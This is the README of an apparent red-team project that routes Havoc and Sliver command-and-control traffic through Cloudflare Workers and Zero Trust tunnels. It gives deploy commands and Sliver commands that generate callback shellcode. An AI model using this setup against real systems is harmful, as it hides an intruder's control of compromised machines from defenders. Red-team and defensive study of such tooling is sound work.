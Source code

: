 # Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.

![good old diagram](assets/0.jpg)

Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, Gateway workers concept, multiple redirectors for multiples C2 frameworks, integrate with KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## Things you will need

- A running C2 framework. I am using [Havoc](https://github.com/HavocFramework/Havoc) for this demo.
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.
- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy and setup secrets but you can also do it use github actions for example.

## In this example

- C2 Listener hostname: `https://listener.demo.com/`
- Worker endpoint: `https://worker.demo.com/`
- Custom header value: `Awesome-Header`
- see the file `demo-profile.yaotl` for the profile used in this demo.

Note: this a simple demo, you should not use the same domain between worker and ZT.

### Secrets to setup

- SERVICE_CF_ID (Cloudflare Service Auth ID to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- SERVICE_CF_SECRET (Cloudflare Service Auth Secret to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- CUSTOM_HEADER (custom header value use in workers)
- WORKER_ENDPOINT (worker endpoint)
- LISTEN_ENDPOINT (C2 listener hostname - hostname bind with cloudflared tunnel) - see screenshot `6.jpg` in assets folder.

## Overview Installation

- Clone/fork this repo.
- Modify the file `demo-profile.yaotl` to match your setup and use it on your C2 server.
- Modify worker config file - `./workers/demo-redirector-c2/wrangler.toml`.
- [Optional] Modify worker code `./workers/demo-redirector-c2/src/index.js`.
- Setup secrets.
- Deploy the worker.

### Install and Deploy

```bash
# clone the repo
git clone ...
cd Cloudflare-Redirector
# modify demo-profile.yaotl to match your setup
# modify wrangler.toml to match your setup
#
cd workers/demo-redirector-c2
# when using "wrangler secret put <KEY>", you will be prompt to enter the secret value
wrangler secret put SERVICE_CF_ID
wrangler secret put SERVICE_CF_SECRET
wrangler secret put CUSTOM_HEADER
wrangler secret put WORKER_ENDPOINT
wrangler secret put LISTEN_ENDPOINT
#
# modify src/index.js [optional]
#
# deploy
wrangler deploy
```

## After deployment

- Start C2 server with your modified profile.

```bash
# ex:
./havoc server --profile profiles/demo-profile.yaotl -v
```

- Generate new payload to execute on a target and execute.
- Receive callback.
- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder.

## Not sure about the Zero Trust part ?

Follow the screenshots in assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. Create application (self-hosted) rules to protect your listener (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## Sliver

```bash
# modify ~/.sliver/configs/http-c2.json (add header)

profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

## Todo

- probably need a better README file
- more stuff?

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [C5pider](https://twitter.com/C5pider) for Havoc.
- [Yack](https://yack.one).

